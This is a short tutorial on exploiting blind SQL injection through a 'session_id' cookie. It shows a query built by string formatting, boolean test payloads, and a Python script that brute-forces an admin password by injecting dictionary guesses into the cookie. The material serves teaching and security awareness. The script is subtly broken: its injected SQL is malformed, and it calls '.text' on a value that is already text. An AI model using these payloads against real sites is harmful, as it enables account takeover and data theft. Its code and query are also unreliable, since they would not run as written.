 ### Exploiting Blind SQL Injection by Inducing Conditional Responses

consider our last example where we execute an attack through cookies. the following cookie is a legit one 

```session_id = 2132```

When a request contain a ``session_id`` it will proceed as following on the provided **flask** code.

```SQL
SELECT * FROM users WHERE session_id = '{user_cookie}'
```

This query in some cases will not return information to the user through an HTTP response but we can observe some changes happen for example, if it is a valid cookie that is confirmed to be in the database. the server will return "Welcome Home" or something similar.

This response is enough for us to be able to exploit the blind sql injection. You can retrieve informations by triggering different responses 

for example, we can inject two codes and see the behavior of the website

```sql
session_id = 2132' AND '1' = '1
session_id = 2132' AND '1' = '2
```

In our application, the first query has returned "Welcome home" but the second when redirected our application for example to signup. This happen because first query returned True on ``1==1`` but the second one returned false on ``1==2``. This indicate that our system is vulnerable to **SQLIA**. and this way we find that the server is vulnerable to blind sql injection.

This way we can extract data from any single condition and extract data one-by-one.

Let's take for example if there is a table called **Users**, This table include the username and password of each user, and you want to bruteforce the password of a user called **Admin**. 

You can brute force the admin password from observing changes happening to the webpage.

the following script brute force **Admin** on the ``session_id`` cookies parameter

```python
import requests

malicious_query = "2132' AND SELECT * FROM Users Where user = 'Admin' and 'password' = 'PASS"
url = "https://vulnerablewebsite/validate"
passwords = list(open("dictionary.txt").read().splitlines())
# test all passwords 
for password in passwords :
    cookies = {
        "session_id" : malicious_query.replace("PASS",password)
    }
    response = requests.post(url,cookies = cookies).text
    if "Welcome Home" in response.text:
        print("Succesfully found password",password)
        break
```
